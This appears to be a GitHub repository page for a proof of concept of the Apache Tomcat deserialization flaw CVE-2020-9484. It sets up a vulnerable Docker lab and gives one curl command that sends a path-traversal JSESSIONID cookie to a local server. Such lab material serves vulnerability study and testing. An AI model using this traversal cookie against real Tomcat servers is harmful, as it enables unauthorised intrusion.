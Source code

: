 # CVE-2020-9484

POC - Apache Tomcat Deserialization Vulnerability (CVE-2020-9484)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/ColdFusionX](https://github.com/ColdFusionX) |
| Url      | [https://github.com/ColdFusionX/CVE-2020-9484](https://github.com/ColdFusionX/CVE-2020-9484)                                               |
| Stars    | 4                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2020-9484* deserialization* docker* exploit* rce* serialization* tomcat

</details>

## Readme

# Apache Tomcat Deserialization Vulnerability (CVE-2020-9484)

## Vulnerable target setup 
- Clone this repository
- Run `docker-compose up -d`
- That's it !

## Exploit POC

- Run `curl -v 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../usr/local/tomcat/cfx`

![poc](https://github.com/ColdFusionX/CVE-2020-9484/blob/main/poc.png)

- File named `coldfx` gets created in `tmp` directory



## Get the content

```
git clone https://github.com/ColdFusionX/CVE-2020-9484
cd CVE-2020-9484
```

{% embed url="https://github.com/ColdFusionX/CVE-2020-9484" %}

<figure><img src="https://avatars.githubusercontent.com/u/8522240?v=4" alt=""><figcaption><p>ColdFusionX</p></figcaption></figure>
